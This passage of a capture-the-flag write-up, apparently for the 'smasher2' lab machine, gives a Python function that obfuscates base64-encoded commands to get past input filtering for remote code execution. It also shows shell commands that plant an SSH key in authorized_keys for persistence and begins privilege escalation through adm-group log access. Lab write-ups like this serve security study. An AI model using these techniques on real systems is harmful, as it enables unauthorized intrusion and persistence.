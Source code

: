 Knowing this, it is easy to write a script to obfuscate our payload and execute any 
command we want. To avoid further filtering on characters we cannot escape using this
method, we can *base64* encode the command and execute it on the box like this:

```python
def rce(token, cmd):
    # New requests.Session with a session cookie from the web app and the
    # required headers (See source code for definition).
    s = Session()

    # Encode the payload.
    encoded = base64.b64encode(bytes(cmd, 'utf-8')).decode('utf-8')
    # Same as: base64 -d <<< {encoded} | sh
    payload = f'bas\\e64 -\\d <<<{encoded}|s\\h'

    r = s.post(f'/api/{token}/job', {'schedule': payload})
    print(json.loads(r.text)['result'])
```

The complete script is available in [**rce.py**](resources/scripts/rce.py).

## Stabilizing the Foothold

With access to the machine, we can add our public key to the *authorized_keys* file and
log in through SSH:

```bash
# Base64-encode the public key.
PUB_KEY_B64="$(base64 -w0 /path/to/id_rsa.pub)"

# Create the ~/.ssh directory.
./rce.py -t $TOKEN -c "mkdir ~/.ssh"

# Upload our public key.
./rce.py -t $TOKEN \
    -c "echo \"\n$(base64 -d <<< $PUB_KEY_B64)\n\" >> ~/.ssh/authorized_keys"

# Connect to the machine.
ssh -i /path/to/id_rsa dzonerzy@smasher2.htb
```

*With access as the user dzonerzy, we can read the ```user.txt``` flag*.

# Privilege Escalation

The user *dzonerzy* belongs to the group *adm*, which has access to this particular log
file:

```
dzonerzy@smasher2:~$ id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),...

dzonerzy@smasher2:~$ find / -group adm 2>/dev/null
[...]
/var/log/auth.log
```
